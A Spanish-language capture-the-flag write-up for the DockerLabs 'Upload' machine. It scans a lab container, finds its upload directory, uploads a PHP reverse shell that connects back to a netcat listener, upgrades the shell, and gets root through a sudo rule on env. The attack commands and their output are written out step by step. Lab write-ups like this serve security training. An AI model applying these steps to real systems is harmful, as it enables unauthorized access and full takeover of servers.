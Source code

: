 ## WRITEUP DE LA MÁQUINA UPLOAD DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos con la herramienta Nmap para ver cuales estan abiertos y que servicios y caraterísiticas muestran.
```shell
└─$ nmap -sC -sV -p- -n --min-rate 5000 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br>
"-p-" Escanea todos los 65535 puertos TCP.
<br>
"-n" Desactiva la resolución de nombres DNS.
<br>
"--min-rate 5000" Ajusta la tasa mínima de envío de paquetes a 5000 paquetes por segundo, acelerando el escaneo.
<br>
"172.17.0.2" Es la dirección IP de la máquina víctima.
<br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-15 11:11 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000094s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.48 seconds
```
Observamos que el puerto 80 del servicio http esta abierto, por ello al ser el unico puerto abierto por lógica intentaremos escalar por ahí. En cualquier buscador ponemos la dirección ip, en este caso 172.17.0.2, nos muestra una pagina web donde se puede subir archivos:
<br><br>
![pagina web upload](https://github.com/1A2N6K7/DockerLabs-WriteUps/assets/94070438/8206ef47-d953-4249-8299-602b767cd7ec)
<br><br><br>
Aqui se dispersa la cosa, ya que vamos a tirar por acceder a la máquina víctima subiendo un archivo php que contenga una reverse shell, para ello hay muchas formas, todas se parecen en ciertas cosas, pero en este caso la voy a hacer de una manera muy sencilla.
<br>
Pero antes de comenzar con la reverse shell, hay que averiguar donde se encuentra y como se llama el directorio donde se alamecenan los archivos que subamos.
<br>
Para ello vamos a hacer un ataque de fuerza con la herramienta gobuster. 
```
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```
El modo dir indica que Gobuster realizará una enumeración de directorios y archivos.
<br>
"-u" Especifica la URL del objetivo que Gobuster escaneará. En este caso, el objetivo es http://172.17.0.2/.
<br>
"-w" Especifica la lista de palabras (wordlist) que Gobuster usará para la fuerza bruta. La lista de palabras contiene nombres de directorios y archivos comunes que Gobuster intentará encontrar en el servidor web. Aquí se está utilizando una lista de palabras proporcionada por DirBuster, llamada directory-list-2.3-medium.txt.
<br>
"-x" Especifica las extensiones de archivos que Gobuster intentará agregar a cada entrada en la lista de palabras. En este caso, Gobuster probará cada palabra con las extensiones .php Esto significa que si una entrada en la lista de palabras es admin, Gobuster probará admin.php

```shell
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           (Status: 200) [Size: 1357]
Progress: 45155 / 441122 (10.24%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 48897 / 441122 (11.08%)
===============================================================
Finished
===============================================================
```
Observamos que nos saca un directorio que destaca, ya que encima muestra un enlace, hablamos del directorio "172.17.0.2/uploads/". Una vez llegados aqui volvemos al tema de la reverse shell, ahora si.
Vamos a la pagina https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php y descargamos el archivo php, lo abrimos en la terminal con alguna herramientas de edicion de texto como nano. Hay dos lineas donde pone "CHANGE THIS" ahi deberias poner la ip de vuestra máquina anfitriona y el puerto:
<br><br>
![Foto del codigo de reverse shell](https://github.com/1A2N6K7/DockerLabs-WriteUps/assets/94070438/93e2497c-8348-4a03-8ff0-9c37807ef8bb)
<br><br>
Subimos este archivo a la pagina víctima. <br>Para estar seguros de que se ha subido, con esta url  "172.17.0.2/uploads/" veremos que se encuentra el archivo almacenado:
<br><br>
![direcotrio por fuzzing](https://github.com/1A2N6K7/DockerLabs-WriteUps/assets/94070438/5c766129-42b5-4bc2-a2b3-48d6d08996ad)
<br><br>
Antes de ejecutar la reverse shell, tenemos que ejecutar la herramienta netcat para ponernos en escucha, siempre hay que poner obviamente el mismo puerto que hemos puesto anteriormente en el archivo php que hemos editado:

```shell
└─$ nc -lvnp 4444                       
listening on [any] 4444 ...
```
"nc" es la abreviatura de netcat, una herramienta de red que se puede usar para leer y escribir datos a través de conexiones de red utilizando los protocolos TCP o UDP.
<br>
-l: Espere conexiones entrantes en lugar de intentar conectarse a otro sistema.
<br>
-v: Muestre información detallada sobre lo que está sucediendo.
<br>
-n: No realice la resolución de nombres de host, solo use direcciones IP.
<br>
-p 4444: Escuche en el puerto 4444
<br><br>
Una vez estamos en escucha, en la url escribimos el nombre del archivo "172.17.0.2/uploads/php-reverse-shell.php", la pagina deberia quedarse en blanco cargando:

```shell
connect to [10.0.2.15] from (UNKNOWN) [172.17.0.2] 41216
Linux 4419c3b05405 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64 x86_64 x86_64 GNU/Linux
 17:55:13 up  6:18,  0 users,  load average: 0.34, 0.41, 0.30
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
Ya somos el usuario "www-data", la idea es llegar a ser root pero antes de esto, debemos hacer el llamado "tratamiento de terminal", se refiere a mejorar la funcionalidad y usabilidad de la shell que has obtenido. Ya que cuando te conectas a una máquina víctima a través de una reverse shell, es común que la sesión no se comporte como una terminal interactiva completa. Esto puede limitar tu capacidad para usar ciertos comandos.
<br><br>
Tratamiento de terminal paso a paso:
<br><br>
1 - "script /dev/null -c bash" - El comando script inicia una sesión de terminal grabada en el archivo especificado (/dev/null en este caso, que descarta la salida). La opción -c bash ejecuta bash dentro de esta sesión.

```shell
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@4419c3b05405:/$ 
```
2 - "Control + z" - Suspende temporalmente la sesión de la shell actual y devuelve el control al shell principal, para poner la sesion en segundo plano.
<br><br>
3 - "stty raw -echo; fg" - Configura la terminal para que pase las entradas crudas (raw) y desactiva el eco (-echo), lo que significa que los caracteres que escribes no se mostrarán. Esto mejora la interacividad de la shell.

```shell
└─$ stty raw -echo; fg

[1]  + continued  nc -lvnp 4444
```
4 - "reset xterm" - Debido al paso anterior parece que la terminal se ha rayado, pero no, hay que ejecutar "reset xterm" aunque el cursor este en medio de la terminal.Este comando  restablece la terminal a sus valores predeterminados, conseguimos limpiar y reconfigura la terminal para que funcione correctamente.
<br><br>
5 - "export TERM=xterm" - Establece la variable de entorno TERM a xterm, lo que informa a los programas terminales sobre el tipo de terminal que estás usando. Conseguimos que la terminal interprete correctamente los comandos y el formato de salida.

```shell
www-data@4419c3b05405:/$ export TERM=xterm
```
6 - "export SHELL=bash" - Establece la variable de entorno SHELL a bash, lo que informa al sistema que estás utilizando bash como shell. Puede ayudar a algunos programas y scripts a comportarse correctamente, asumiendo que bash es tu shell.

```shell
www-data@4419c3b05405:/$ export SHELL=bash
```
Una vez hemos completado el "tratamiento de terminal" toca escalar privilegios. Escribimos el comando "sudo -l" el cual  permite a un usuario verificar qué comandos tienen permiso para ejecutar como superusuario (o cualquier otro usuario especificado).
<br>

```shell
www-data@4419c3b05405:/$ sudo -l
Matching Defaults entries for www-data on 4419c3b05405:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 4419c3b05405:
    (root) NOPASSWD: /usr/bin/env
```
Esta linea es la que nos interesa "(root) NOPASSWD: /usr/bin/env": significa que el usuario puede ejecutar el comando /usr/bin/env con privilegios de superusuario (root) sin necesidad de proporcionar una contraseña.
<br>
Para escalar privilegios nos aprovecharemos de "/usr/bin/env" para ser root, para ello nos metemos en la pagina https://gtfobins.github.io/#env y en la opcion de "env" pinchamos en el recuadro de "Sudo", copiamos el comando que nos aparece "sudo env /bin/sh" y ejecutamos.

```shell
www-data@4419c3b05405:/$ sudo env /bin/sh
# whoami
root
# 
```
Ya esta, estamos dentro, somos root, muchas gracias.
